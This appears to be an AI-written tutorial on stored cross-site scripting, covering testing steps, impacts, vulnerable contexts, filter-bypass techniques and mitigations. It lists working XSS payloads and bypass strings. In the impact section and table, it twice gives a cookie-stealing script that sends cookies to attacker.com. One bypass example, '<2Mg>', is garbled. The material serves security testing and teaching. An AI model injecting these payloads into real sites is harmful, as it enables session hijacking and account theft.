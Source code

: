 ### Stored Cross-Site Scripting (XSS) Overview

**Key Points:**
- Stored XSS, or persistent XSS, involves malicious scripts stored on a server that execute in users’ browsers when accessed, posing significant risks like session hijacking.
- Testing involves injecting test payloads into input fields and checking if they persist and execute, often using tools like Burp Suite.
- Impacts include stealing user data, spreading malware, or escalating privileges, especially if administrators are targeted.
- It can occur in forums, user profiles, or logs, and attackers may bypass filters using obfuscation or encoding techniques.
- While highly dangerous, proper input validation and output encoding can mitigate risks, though some debate exists on the effectiveness of certain filters.

**What is Stored XSS?**  
Stored XSS occurs when an attacker injects malicious scripts into a web application, which are saved on the server (e.g., in a database) and later displayed to users. When users view the affected page, the script runs in their browser, potentially stealing data or performing unauthorized actions. It’s particularly dangerous because it doesn’t require users to click a malicious link, unlike reflected XSS.

**How to Test for It**  
To test for stored XSS, try entering scripts like `<script>alert('test')</script>` into fields like comments or profiles. Check if the script is saved and runs when the page is viewed. Tools like [Burp Suite](https://portswigger.net/burp) or [OWASP ZAP](https://www.zaproxy.org) can help automate this. Also, test file uploads or logs to see if they can store and execute scripts.

**Why It Matters**  
Stored XSS can lead to serious issues, such as stealing login credentials, spreading malware, or even taking over admin accounts. For example, a script in a forum post could steal cookies from every user who views it, compromising their accounts.

**Where It Happens**  
This vulnerability often appears in social platforms, forums, or any feature where users submit content that’s displayed to others, like user profiles or message boards. Even admin dashboards showing user data can be at risk.

**Bypassing Protections**  
Attackers may evade filters by disguising scripts, such as using `<img onerror="alert(1)">` instead of `<script>`, or encoding characters to trick the system. Testing different encodings or splitting scripts across fields can reveal weaknesses.

---

### Comprehensive Guide to Stored Cross-Site Scripting (XSS)

Stored Cross-Site Scripting (XSS) is a critical web application vulnerability that allows attackers to inject malicious scripts into a server, which are then executed in the browsers of unsuspecting users. This section provides an in-depth exploration of stored XSS, including its definition, testing methodologies, impact assessment, contexts, and techniques to bypass filters, drawing from authoritative sources like *The Web Application Hacker’s Handbook* and OWASP resources.

#### Definition
Stored XSS, also known as persistent or Type-II XSS, occurs when malicious scripts are permanently stored on a server, such as in a database, message forum, comment section, or visitor log. These scripts are served to users who access the affected content, executing in their browsers without requiring further interaction from the attacker. Unlike reflected XSS, which relies on a single request-response cycle, stored XSS persists, making it particularly dangerous as it can affect multiple users over time. For instance, in an auction site, an attacker might post a question containing `<script>alert(document.cookie)</script>`, which executes for any user viewing the question, potentially stealing their session tokens.

#### Testing Methodologies
Testing for stored XSS requires a systematic approach to identify vulnerabilities across various input points and contexts. The following steps outline a comprehensive testing strategy:

1. **Identify Input Points:** Locate all areas where user input is collected and stored, including comment fields, user profiles, forum posts, shopping carts, file uploads, and application logs.
2. **Inject Test Payloads:** Submit unique, benign test strings (e.g., `xgxssestamq1vp`) or malicious scripts (e.g., `<script>alert('XSS')</script>`) into these fields. Use distinct strings for each parameter to track where data appears.
3. **Check Persistence:** Verify if the input is stored by navigating to pages or features where the data might be displayed, such as user profiles, message boards, or admin dashboards.
4. **Observe Execution:** Confirm if the script executes in the browser when the stored data is rendered. For example, if `<script>alert(1)</script>` triggers a pop-up, the application is vulnerable.
5. **Test Multi-Step Processes:** Complete workflows like user registration or order placement to ensure data is stored and displayed unsafely across multiple requests.
6. **Investigate Out-of-Band Channels:** Check non-web interfaces, such as email inputs in web mail systems, where user data is received and rendered as HTML.
7. **Test File Uploads:** Upload files containing HTML or scripts (e.g., set MIME type to `text/html` with `<script>alert(1)</script>`) and verify if they execute when downloaded or viewed.
8. **Use Tools:** Employ tools like [Burp Suite](https://portswigger.net/burp), [OWASP ZAP](https://www.zaproxy.org), [BeEF](https://www.beefproject.com), or [XSS Hunter](https://github.com/mandatoryprogrammer/xsshunter) to automate testing and monitor HTTP traffic. For blind XSS, where the payload is stored but not immediately visible, XSS Hunter can detect execution in feedback forms or logs.
9. **Gray-Box Testing:** If partial access to the backend is available, analyze how input is stored and processed. Check source code for variables like PHP’s `$_POST` or Java’s `request.getParameter` to identify sanitization gaps.

**Example Test Payload Artifact:**

<script>alert('XSS')</script>
<img src="x" onerror="alert(1)">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
<a href="javascript:alert(1)">Click</a>


#### Building Impact
Stored XSS vulnerabilities can have devastating consequences due to their persistent nature and ability to affect multiple users. Key impacts include:

- **Session Hijacking:** Attackers can steal session cookies, allowing them to impersonate users. For example, a script like `<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>` sends cookies to an attacker-controlled server.
- **Automated Attacks:** Persistent payloads execute every time a user visits the compromised page, enabling continuous attacks without further interaction. This is particularly effective in authenticated areas where users are logged in.
- **Worm Propagation:** As seen in the 2005 MySpace attack, stored XSS can create self-propagating worms. A script in a user profile might copy itself to other profiles, spreading exponentially.
- **Privilege Escalation:** If an administrator views the compromised data, the attacker can hijack their session, gaining full control over the application. For instance, a script in a user’s display name could execute when an admin views a user list.
- **Chaining with Other Vulnerabilities:** Stored XSS can amplify other flaws, such as defective access controls. An attacker might use XSS to modify a user’s profile data, exploiting an access control vulnerability to target all users.

| **Impact Type**         | **Description**                                                                 | **Example**                                                                 |
|-------------------------|--------------------------------------------------------------------------------|-----------------------------------------------------------------------------|
| Session Hijacking       | Stealing session tokens to access user accounts.                               | `<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>` |
| Worm Propagation        | Self-replicating scripts that spread across users.                             | MySpace worm adding attacker as friend and copying script to victim profiles. |
| Privilege Escalation    | Gaining admin access by targeting high-privilege users.                       | Script in user data executes in admin dashboard, stealing admin session.     |
| Chaining Vulnerabilities | Combining XSS with other flaws for greater impact.                            | XSS in display name + access control flaw to compromise all users.           |

#### Contexts for Stored XSS
Stored XSS vulnerabilities can manifest in various application contexts, particularly in features involving user-generated or stored content. Common contexts include:

- **User Interaction Features:** Applications like forums, auction sites, or social networks where users post content (e.g., comments, questions, or messages) are prime targets. For example, a malicious script in a forum post could affect all viewers.
- **Administrative Interfaces:** Data visible to administrators, such as user records, logs, or feedback, can be exploited if not sanitized. A script in a log entry might execute when an admin views it.
- **Personal Information Fields:** Fields like names, addresses, or email addresses displayed on user profiles or contact lists can harbor XSS payloads.
- **Uploaded Content:** Files uploaded by users, such as profile pictures or attachments, may contain malicious HTML or scripts that execute when rendered in the browser.
- **Out-of-Band Channels:** Data received via non-web interfaces, like emails in web mail applications, can introduce XSS if rendered as HTML. Web mail systems are particularly vulnerable due to their handling of third-party HTML.
- **Application Logs and Metadata:** Data like HTTP Referer, User-Agent, or filenames logged by the application and displayed in-browser can be exploited if not properly sanitized.

#### Bypassing Filter Techniques
Web applications often implement filters to prevent XSS, but attackers can use various techniques to bypass them. These methods exploit weaknesses in filter logic or browser behavior:

1. **Signature-Based Filter Bypasses:**
   - **Alternative Script Tags and Syntax:** Use tags like `<object>` or Base64-encoded scripts (e.g., `<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">`).
   - **Event Handlers:** Inject scripts via event handlers like `onerror`, `onload`, or `onmouseover` (e.g., `<img src="x" onerror="alert(1)">`).
   - **NULL Bytes:** Insert NULL bytes (e.g., `%00`) to confuse filters, particularly in older browsers like Internet Explorer.

2. **HTML Obfuscation:**
   - **Case Manipulation:** Vary tag case (e.g., `<2Mg>` instead of `<img>`).
   - **Whitespace Removal:** Remove spaces or use alternative characters (e.g., `<imgonerror="alert(1)"src=a>`).
   - **HTML Encoding:** Encode characters (e.g., `<` as `&lt;` or Unicode `&#x3c;`) to evade detection, leveraging browser tolerance for malformed HTML.

3. **Character Set Exploits:**
   - Use non-standard encodings like UTF-7 or Shift-JIS to represent malicious code (e.g., `+ADw-script+AD4-alert(1)+ADw-/script+AD4-` in UTF-7).

4. **Sanitization Bypasses:**
   - **Recursive Sanitization Checks:** Test if filters remove only the first instance of a pattern (e.g., submit `<script><script>alert(1)</script></script>`).
   - **Order of Operations:** Exploit sanitization sequence (e.g., if `<script>` is stripped before `<object>`, try `<script><object>alert(1)</object></script>`).
   - **Escaped Character Manipulation:** If quotes are escaped with backslashes, check if backslashes are escaped, allowing payloads like `foo\';alert(1);//`.

5. **Spanning Payloads:** Split payloads across multiple fields or parameters to reconstruct a script in the response.
6. **VBScript and Hybrid Approaches:** Use VBScript (e.g., `<script language="vbs">MsgBox 1</script>`) or combine JavaScript and VBScript to bypass JavaScript-specific filters.
7. **Out-of-Band Delivery:** For non-web channels like email, craft raw messages with obfuscated payloads using tools like `sendmail`.

**Example Bypass Artifact:**

<img src="x" onerror="alert(1)">
<2Mg OnErRoR="alert(1)" SrC=a>
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
foo\';alert(1);//


#### Mitigation Strategies
While not directly requested, understanding mitigations can inform testing and impact assessment. OWASP recommends:
- **Input Validation:** Restrict input to expected formats using allowlists.
- **Output Encoding:** Encode data before rendering in HTML, JavaScript, or URLs (e.g., use [OWASP AntiSamy](https://owasp.org/www-project-antisamy)).
- **Content Security Policy (CSP):** Restrict script sources to trusted domains.
- **Sanitization:** Use libraries like DOMPurify to sanitize HTML.
- **Framework Protections:** Leverage modern frameworks with built-in XSS defenses, but verify their effectiveness.

#### Controversies and Challenges
Some debate exists around the effectiveness of XSS filters, as they can be bypassed with sophisticated techniques, as outlined above. Additionally, the reliance on client-side protections like CSP can be undermined by misconfigurations or legacy systems. The balance between usability (allowing rich user content) and security (restricting HTML) remains a challenge, particularly in applications like web mail or CMS platforms.

#### Key Citations
- [OWASP Web Security Testing Guide - Stored XSS Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
- [Burp Suite - Web Security Testing Tool](https://portswigger.net/burp)
- [OWASP ZAP - Open Source Security Testing](https://www.zaproxy.org)
- [BeEF - Browser Exploitation Framework](https://www.beefproject.com)
- [XSS Hunter - Blind XSS Detection Tool](https://github.com/mandatoryprogrammer/xsshunter)



